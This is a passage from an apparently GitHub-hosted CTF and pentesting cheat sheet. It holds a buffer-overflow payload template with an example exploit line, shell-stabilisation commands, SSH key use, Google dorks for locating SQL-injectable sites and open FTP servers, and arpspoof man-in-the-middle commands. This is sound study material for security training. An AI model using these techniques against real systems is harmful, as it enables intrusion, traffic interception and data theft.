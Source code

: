 encode it with shikata_ga_nai if u want
-f >>> the output file language
-a >>> the architecture
-b >>> bad chars

10. Dont forget to add NOPS (\x90) on final payload ('\x90' * 32 or more or less).
11. Final payload formation: [Payload] + [ESP] + [NOPS] + [SHELLCODE]
Example:
`payload = b"A"*146 + b"\xC3\x14\x04\x08" + b"\x90" * 20 + shellcode`



**Fix your terminal**
1. python3 -c 'import pty;pty.spawn("/bin/bash");'
2. export TERM=xterm >>> so you can clear
3. ctrl + z >>> background
4. stty raw -echo
5. fg



**CTF Tools**
1. Forensics >> exiftool, volatility, zsteg, stegsolve, stegcracker, steghide
2. Way Back Machine can see everything, not only dead websites



**SSH with id_rsa**
1. chmod 600 id_rsa >>> for ours and ours alone 
2. ssh -i id_rsa [user]@[ip]



**Dorking**
1. Possible SQLi target >>> inurl:"product.php?id=" & intext:"You have an error in your SQL syntax"
2. Open FTP >>> "intitle: index of" inurl:ftp



**ARP**
Enable port forwarding
## echo 1 > /proc/sys/net/ipv4/ip_forward
### Poisoning
1. sudo arpspoof -i [interface] -t [target_ip] [gateway_ip]
2. sudo arpspoof -i [interface] -t [gateway] [target_ip]
Or just langsung pake -r (both direction)
1. sudo arpspoof -i [interface] -t [target_ip] -r [gateway_ip]

### Sniff
1. After poisoning, sniff packets with wireshark
2. Or just use bettercap and do this all automaticly tbh.



**Wireshark**
1. [FILTER] && [FILTER] && [FILTER] >>> Filtering stuff
Ex: ip.src == [IP] && http 
2. Follow the stream~
